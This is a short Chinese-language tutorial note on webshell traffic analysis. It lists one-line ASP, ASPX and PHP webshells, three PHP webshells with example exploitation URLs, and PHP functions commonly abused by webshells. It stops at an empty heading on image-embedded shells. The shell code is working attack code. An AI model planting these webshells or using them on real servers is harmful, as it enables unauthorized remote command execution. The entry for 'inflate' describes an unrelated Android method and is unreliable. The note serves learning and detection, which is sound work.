 # Webshell流量分析

常见的一句话木马：

```
asp一句话 <%eval request("pass")%>
aspx一句话 <%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
php一句话 <?php @eval($_POST["pass"]);?>
```

## 什么是Webshell

- Webshell看起来和普通的服务端脚本一样，看起来就像普通的代码。
- Webshell对本地资源具备一定的操作能力，其操作本地资源的范围取决于解析器的权限。

```php
# webshell: 1.php
<?php echo system($_GET["cmd"]);?>
# 利用方式 
http://ip:port/hackable/uploads/1.php?cmd=ls
```

```php
# webshell: 2.php
<?php eval($_GET["cmd"]);?>
# 利用方式
http://ip:port/hackable/uploads/2.php?cmd=phpinfo();
```

```php
#  webshell: 3.php
<?php include "shell.jpg";?>
# 利用方式
# 上传shell.jpg到同一目录，其中包含代码<?php phpinfo();?>
# 文件也可以是shell.jsp、shell.txt
http://ip:port/hackable/uploads/3.php
```

## Webshell恶意函数

```
fwrite：写入文件（可安全用于二进制文件）。
eval：把字符串作为PHP代码执行。
exec：执行一个外部程序。
system：执行外部程序，并且显示输出。
stripslashes：反引用一个引用字符串。
inflate：inflate方法的主要作用就是将xml转换成一个View对象，用于动态的创建布局。
gzinflate：gzinflate()，gzdeflate()是压缩与解压缩算法。
passthru：执行外部程序并且显示原始输出。
move_uploaded_file：将上传的文件移动到新位置。
phpinfo：输出关于 PHP 配置的信息。
```

## 图片马制作方式
